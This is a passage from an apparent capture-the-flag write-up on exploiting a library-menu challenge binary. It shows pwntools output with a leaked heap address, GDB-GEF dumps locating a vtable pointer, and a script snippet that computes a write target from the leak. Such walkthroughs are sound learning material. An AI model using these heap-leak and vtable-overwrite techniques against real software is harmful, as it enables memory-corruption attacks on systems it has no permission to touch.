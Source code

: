```
b' 1) Borrow book\n2) Add a page\n3) Tear out page'
b'\n> Your reference number is: '
b'0x1efa3a0'
0x1efa3a0
[*] Switching to interactive mode
1) Donate book
2) List books
3) Fetch an item
4) Return book
5) Leave feedback
> $ 1
```
And the location of the vtable pointer in GDB-GEF:
```
────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 0x00404290
[+] Searching '\x90\x42\x40\x00' in memory
[+] In '[heap]'(0x1ee7000-0x1f08000), permission=rw-
  0x1ef8eb0 - 0x1ef8ec0  →   "\x90\x42\x40\x00[...]" 
gef➤  x/5gx 0x1ef8eb0
0x1ef8eb0:	0x0000000000404290	0x0000000001efa3f0
0x1ef8ec0:	0x0000000000000032	0x0000000000000032
0x1ef8ed0:	0x0000000000000000
gef➤  

```
The offset on my local system was 0x14f0 bytes before the leaked address. Finally, let's see exactly what happens when we borrow and return a book. I added the following lines to my pwntools script:
```
vtable_loc = pointer - 0x14f0
print('Here is where the vtable pointer is', hex(vtable_loc))

test_write_section = vtable_loc - 0x100
print('Here is where I\'m planning to write', hex(test_write_section))

return_book(test_write_section)
```
Here is the section of terminal output with addresses:
```
Here is my heap leak 0x179c3a0
Here is where the vtable pointer is 0x179aeb0
Here is where I'm planning to write 0x179adb0
```
Prior to returning the book, the relevant sections of memory look like this:
```
gef➤  x/20gx 0x179c3a0
0x179c3a0:	0x000000000179c350	0x0000000001789010
0x179c3b0:	0x0000000000000032	0x0000000000000032
0x179c3c0:	0x0000000000000000	0x0000000000000000
0x179c3d0:	0x0000000000000000	0x0000000000000000
0x179c3e0:	0x0000000000000000	0x0000000000000041
0x179c3f0:	0x6161616161616161	0x6161616161616161
0x179c400:	0x6161616161616161	0x6161616161616161
0x179c410:	0x6161616161616161	0x6161616161616161
0x179c420:	0x0000000000006161	0x0000000000000021
0x179c430:	0x000000000179c3a0	0x0000000000000000
gef➤  x/20gx 0x179aeb0
0x179aeb0:	0x0000000000404290	0x000000000179c3f0
0x179aec0:	0x0000000000000032	0x0000000000000032
0x179aed0:	0x0000000000000000	0x0000000000000000
0x179aee0:	0x0000000000000000	0x0000000000000000
0x179aef0:	0x0000000000000000	0x0000000000000411
0x179af00:	0x0000000000000000	0x0000000001789010
0x179af10:	0x0000000000000000	0x0000000000000000
```